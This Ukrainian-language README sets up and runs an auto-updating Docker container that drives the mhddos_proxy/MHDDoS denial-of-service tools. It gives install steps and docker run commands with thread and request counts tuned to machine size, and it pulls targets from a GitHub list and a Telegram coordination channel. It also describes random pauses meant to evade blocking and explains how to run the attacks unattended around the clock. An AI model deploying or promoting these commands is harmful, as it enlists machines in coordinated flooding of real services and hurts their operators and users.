 # Опис docker

# ЯКЩО ВИ КОРИСТУВАЧ WINDOWS, ТО ЗАБУДЬТЕ ПРО ДОКЕР, БО ЦЕ ВІРТУАЛКА, ЯКА ЖРЕ УВЕСЬ ПРОЦЕССОР, ТА ЙДІТЬ СЮДИ: https://github.com/alexnest-ua/runner_for_windows
  
ПОВНІСТЮ АВТООНОВЛЮВАНИЙ (оновлює цілі та себе) docker-контейнер для будь-яких машин, що керує [mhddos_proxy](https://github.com/porthole-ascend-cinnamon/mhddos_proxy)  
Також він автоматично оновлює не лише цілі, а й скрипти з mhddos_proxy та MHDDoS  
Також скрипт імітує роботу людини (вимикає увесь ДДоС на 2-6 (рандомно) хвилин), тому знижується можливість блокування  
Скрипт розподіляє список машин по різним цілям: https://github.com/alexnest-ua/targets/blob/main/targets_docker  
Увесь source code знаходиться тут: https://github.com/alexnest-ua/auto_mhddos_alexnest/tree/docker  
  
[**Налаштування**](https://github.com/alexnest-ua/auto_mhddos_alexnest/tree/docker#%D0%BD%D0%B0%D0%BB%D0%B0%D1%88%D1%82%D1%83%D0%B2%D0%B0%D0%BD%D0%BD%D1%8F-%D0%B2%D1%81%D1%82%D0%B0%D0%BD%D0%BE%D0%B2%D0%BB%D0%B5%D0%BD%D0%BD%D1%8F)
[**Запуск команд**](

Канал, де координуються цілі: https://t.me/ddos_separ (звідти і беруться сюди цілі, тому якщо у вас на Linux запущено цей скрипт - то можете відпочивати, він все зробить за вас)  
Чат, де ви можете задати свої питання: https://t.me/+8swDHSe_ROI5MmJi  
Також можете писати мені в особисті у телеграм, я завжди усім відповідаю: @brainqdead  
  
Туторіал по створенню автоматичних та автономних Linux-серверів: https://auto-ddos.notion.site/dd91326ed30140208383ffedd0f13e5c  

## Налаштування (встановлення)
  
* щоб скачати на Windows / Mac:  
https://www.docker.com/get-started/ (якщо виникають якісь проблеми: пишіть мені @brainqdead (телеграм)

* щоб скачати на Linux-машину(але краще ставте напряму: https://github.com/alexnest-ua/auto_mhddos_alexnest ):  
```
sudo apt update -y
sudo apt upgrade -y
sudo curl -fsSL https://download.docker.com/linux/debian/gpg | sudo apt-key add -
sudo echo 'deb [arch=amd64] https://download.docker.com/linux/debian buster stable' | sudo tee /etc/apt/sources.list.d/docker.list
sudo apt update -y
sudo apt remove docker docker-engine docker.io -y
sudo apt install docker-ce -y
sudo systemctl unmask docker.service
sudo systemctl unmask docker.socket
sudo systemctl start docker.service
sudo systemctl start docker
sudo systemctl enable docker
sudo docker run hello-world
docker run -it --rm --pull always alexnestua/auto_mhddos
```
  
*чекаємо 5-10 хвилин поки все встановиться.*  

## Запуск на роботу у фоні (24/7 на Linux-сервері) - можна закривати термінал
Запуск автоматичного ДДоСу(без виведення на екран):  
```
docker run -itd --rm --pull always --name alexnestua ghcr.io/alexnest-ua/auto_mhddos_alexnest:latest 
```

**!!!УВАГА!!!** контейнер підтримує наступні параметри (САМЕ У ТАКОМУ ПОРЯДКУ ТА ЛИШЕ У ТАКІЙ КІЛЬКОСТІ(мінімум 3)), але можно і без них:  
docker run -it --rm --pull always --name alexnest alexnestua/auto_mhddos [num_of_copies] [threads] [rpc] [debug]  
- num_of_copies - кількість атакуємих за один прохід цілей
- threads - кількість потоків на кожне ядро процесора
- rpc - кількість запитів на проксі перед відправкою на ціль
- debug - можливість дебагу (якщо хочете бачити повний інфу по атаці - у 4-ий параметр додайте --debug)
  
### Приклади команд з різними параметрами(для Linux додавайте sudo, або краще ставте на пряму: https://github.com/alexnest-ua/auto_mhddos_alexnest):

1. ***Для лінивих*** (буде обрано за замовчуванням: num_of_copies=1, threads=3000 rpc=1000 debug="" (1 ціль, 3000 потоків, 1000 запитів на проксі перед відправкою на ціль, без дебагу)
```
docker run -it --rm --pull always --name alexnestua ghcr.io/alexnest-ua/auto_mhddos_alexnest:latest
```
**CPUs** - це потоки вашого процесора (не ядра) - зазвичай потоків у два рази більше ніж ядер  

2. Слаба машина(1 CPU + 1-2 GB RAM), саме ці параметри за замовчуванням:
```
docker run -it --rm --pull always --name alexnestua ghcr.io/alexnest-ua/auto_mhddos_alexnest:latest 1 3000 1000
```

3. Середня машина(2-4 CPUs + 2-8 GB RAM):
```
docker run -it --rm --pull always --name alexnestua ghcr.io/alexnest-ua/auto_mhddos_alexnest:latest 1 5000 2000
```

4. Нормальна машина(4-8 CPUs + 8-16 GB RAM):
```
docker run -it --rm --pull always --name alexnestua ghcr.io/alexnest-ua/auto_mhddos_alexnest:latest 2 6000 2000
```

6. Потужна машина(9+ CPUs + 16+ CB RAM):
```
docker run -it --rm --pull always --name alexnestua ghcr.io/alexnest-ua/auto_mhddos_alexnest:latest all 6000 5000
```

Після цього, якщо хочете вбити процес - натискайте Ctrl+C  (у його відкритій вкладці)  

*також ви можете змінювати параметри на будь-які інші значення, але я рекомендую саме ці.*  
*також можете додавати останнім **4-тим** параметром --debug, що слідкувати за ходом атаки, наприклад:*  
```
docker run -it --rm --pull always --name alexnestua ghcr.io/alexnest-ua/auto_mhddos_alexnest:latest 1 3000 1000 --debug
```

* Приклад БЕЗ параметру --debug:
![image](https://github.com/alexnest-ua/special_files/blob/main/screenshots/docker_no_debug.png?raw=true)
* Приклад З параметром --debug:
![image](https://github.com/alexnest-ua/special_files/blob/main/screenshots/docker_debug.png?raw=true)

* щоб подивитися що там працює у фоні(для Linux додайте sudo) та вбити процес:  
```
docker ps  -a
щоб вбити запущені раніше фонові підпроцеси на Linux прописуєте:  
sudo docker kill $(docker ps -aqf name=alexnestua)
або на Windows зайти у Docker Dekstop -> Containers / Apps -> Видалити container з ім'ям alexnestua
```



## Список цілей  

  
alexnestua/auto_mhddos підтримує єдиний [список цілей](https://github.com/alexnest-ua/targets/blob/main/targets_docker), який можна тримати на github і постійно оновлювати.  
  
    
Цілі не обов'язково видаляти із списку. Їх можна просто закоментувати і розкоментувати пізніше, якщо вони знов знадобляться. Скрипт використовує лише строки, які починаються не на #.  

## Thanks

Special thanks to https://github.com/OleksandrBlack and https://twitter.com/SprechenFuehrer  
